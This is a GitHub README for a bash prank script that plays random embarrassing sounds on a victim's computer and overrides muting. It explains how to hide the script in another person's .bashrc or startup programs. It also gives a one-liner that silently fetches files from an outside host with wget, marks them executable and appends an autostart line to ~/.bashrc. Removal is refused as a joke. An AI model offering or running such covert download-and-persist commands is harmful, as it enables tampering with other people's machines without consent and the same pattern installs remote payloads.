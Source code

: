 Bash Prank
-----------
Imagine you are in class.
Someone - we wont say who - opens up their terminal.
Then they close it.
Then after a random time interval - say anywhere from 1 to 300 seconds
a random sound plays.
Oh, it can be an embarrassing sound.
Did you say they had headphones on?
Didn't work very well for them now did it?
Did you say they tried muting it?
Ahh - you mean it unmuted and went to full volume a second later.




Run via
```bash
    ./al.sh & disown $!
```

## Implementation ideas BASHRC##
Hide in their bashrc
```bash
    ./{PATH_TO_FILE}/al.sh & disown $!
```

Do everything via: mkdir
```bash
    ~/.config/al >/dev/null 2>&1; cd ~/.config/al; \
    wget -r -nc -nd http://prank.hostei.com/ >/dev/null 2>&1 && chmod +x al.sh \
    && echo ". ~/config/al/al.sh & disown $!" >> ~/.bashrc
```
## Implementation ideas StartUP Command##
https://help.ubuntu.com/community/AddingProgramToSessionStartup
```bash
    ./{PATH_TO_FILE}/al.sh & disown $!
```


## Removal Instructions ##
------------------------
Really? You want to get rid of this amazing piece of code that inhances your life more than sliced bread?